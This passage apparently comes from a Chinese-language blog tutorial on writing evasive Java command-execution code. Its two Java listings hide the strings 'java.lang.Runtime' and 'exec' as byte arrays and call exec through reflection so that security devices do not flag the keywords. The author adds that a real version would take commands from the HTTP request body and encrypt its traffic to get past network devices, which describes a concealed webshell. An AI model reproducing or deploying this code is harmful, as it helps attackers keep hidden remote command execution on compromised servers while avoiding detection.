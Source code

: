 ```java
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, IllegalAccessException, InvocationTargetException, InstantiationException, IOException {
        byte[] b1 = new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101};
        String run = new String(b1);
        String command = "ipconfig";
        Class aClass = Class.forName(run);
        Constructor declaredConstructor = aClass.getDeclaredConstructor();
        declaredConstructor.setAccessible(true);
        Object o = declaredConstructor.newInstance();
        Method exec = aClass.getMethod("exec", String.class);
        Process process = (Process) exec.invoke(o,command);
        InputStream inputStream = process.getInputStream();    //获取输出的数据
        String ipconfig = IOUtils.toString(inputStream,"gbk"); //字节输出流转换为字符
        System.out.println(ipconfig);
    }
}
```
![image.png](https://cdn.nlark.com/yuque/0/2020/png/396745/1602817766094-4e9b024c-3c7f-4d96-add6-9d227ced8fa9.png#align=left&display=inline&height=687&originHeight=2060&originWidth=3840&size=914936&status=done&style=shadow&width=1280)<br />命令执行成功。<br />那么这就是一段完整的代码，但是还有些地方处理得不是很好，比如：
```java
Method exec = aClass.getMethod("exec", String.class);
```
这里是反射获取`exec`方法，这里的exec是固定的。`exec`这个对于一些设备来说也是严杀的。<br />那么在这里就可以来处理一下，也转换成字节码。<br />转换后的字节码：<br />[101,120,101,99]<br />改进一下代码：
```java
public class test {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, IllegalAccessException, InvocationTargetException, InstantiationException, IOException {
        String command = "ipconfig";
        byte[] b1 = new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101};
        String run = new String(b1);
        byte[] b2 = new byte[]{101, 120, 101, 99};
        String cm = new String(b2);
        
        Class aClass = Class.forName(run);
        Constructor declaredConstructor = aClass.getDeclaredConstructor();
        declaredConstructor.setAccessible(true);
        Object o = declaredConstructor.newInstance();
        Method exec = aClass.getMethod(cm, String.class);
        Process process = (Process) exec.invoke(o,command);
        InputStream inputStream = process.getInputStream();    //获取输出的数据
        String ipconfig = IOUtils.toString(inputStream,"gbk"); //字节输出流转换为字符
        System.out.println(ipconfig);
    }
}
```
实际中运用不会直接定义命令的关键字`ipconfig`和`command`，这些都是一些敏感词。这里只是为了方便理解。<br />在真实情况下应该是`request.getInputStream()`来获取输入的命令的。那么这里也还需要注意传输的时候进行加密，不然流量肯定也是过不了设备的。
